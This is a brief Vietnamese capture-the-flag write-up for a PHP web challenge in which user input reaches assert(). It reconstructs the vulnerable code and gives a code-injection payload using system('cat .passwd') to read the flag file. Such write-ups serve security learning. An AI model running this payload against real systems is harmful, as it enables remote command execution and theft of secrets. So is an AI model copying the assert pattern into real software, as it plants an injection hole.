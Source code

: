 Thử lỗi LFI: nhập vào URL `/?page=../` thì nó hiện ra thông báo:

>Warning: assert(): Assertion "strpos('includes/../.php', '..') ===  false" failed in /challenge/web-serveur/ch47/index.php on line 8 Detected hacking attempt!

Search gg PHP assert LFI vulnerability, đoán được đoạn code detect có dạng như sau:

```php
<?php
if (isset($_GET['page'])) {
    $page = $_GET['page'];
} else {
    $page = "home";
}
$file = "includes/" . $page . ".php";
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!"); 
?>
```

và biết thêm string truyền vào hàm assert()  được coi như php code, nghĩa là chúng ta có thể inject code sử dụng biến `$page`

Vậy payload sẽ có dạng như sau:

```php
','') or system('cat .passwd') ;//
```

khi đó câu lệnh trở thành:

```php
assert("strpos(' includes/','') or system('cat .passwd') ;//.php', '..') === false") or die("Detected hacking attempt!"); 
```

và nó sẽ in ra file .passwd cho mình

